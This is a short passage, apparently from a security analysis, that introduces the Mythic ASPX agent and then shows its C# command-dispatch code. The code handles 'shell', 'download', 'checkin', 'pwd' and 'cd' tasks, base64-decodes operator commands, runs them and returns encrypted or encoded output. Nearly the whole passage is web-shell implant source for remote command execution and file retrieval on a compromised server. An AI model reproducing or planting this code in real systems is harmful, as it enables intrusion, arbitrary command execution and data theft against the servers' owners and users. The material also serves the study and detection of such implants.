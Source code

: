 In this section we will analyze the Mythic ASPX agent:

```
 case "shell":
                        response = tasking[0] + "|" + Shell(System.Text.Encoding.UTF8.GetString(Convert.FromBase64String(tasking[2])));
                        if (Psk != "") 
                        {
                            task_response.Text = Encrypt(response);
                        }
                        else 
                        {
                            task_response.Text = Convert.ToBase64String(System.Text.Encoding.UTF8.GetBytes(response));
                        }
                        break;
                    case "download":
                        response = tasking[0] + "|" + Download(System.Text.Encoding.UTF8.GetString(Convert.FromBase64String(tasking[2])));
                        if (Psk != "") 
                        {
                            task_response.Text = Encrypt(response);
                        }
                        else 
                        {
                            task_response.Text = Convert.ToBase64String(System.Text.Encoding.UTF8.GetBytes(response));
                        }
                        break;
                    case "checkin":
                        response = tasking[0] + "|" + CheckIn();
                        if (Psk != "") 
                        {
                            task_response.Text = Encrypt(response);
                        }
                        else 
                        {
                            task_response.Text = Convert.ToBase64String(System.Text.Encoding.UTF8.GetBytes(response));
                        }
                        break;
                    case "pwd":
                        response = tasking[0] + "|" + CurrentDirectory();
                        if (Psk != "") 
                        {
                            task_response.Text = Encrypt(response);
                        }
                        else 
                        {
                            task_response.Text = Convert.ToBase64String(System.Text.Encoding.UTF8.GetBytes(response));
                        }
                        break;
                    case "cd":
                        response = tasking[0] + "|" + ChangeDirectory(System.Text.Encoding.UTF8.GetString(Convert.FromBase64String(tasking[2])));
                        if (Psk != "") 
                        {
                            task_response.Text = Encrypt(response);
                        }
                        else 
                        {
                            task_response.Text = Convert.ToBase64String(System.Text.Encoding.UTF8.GetBytes(response));
```
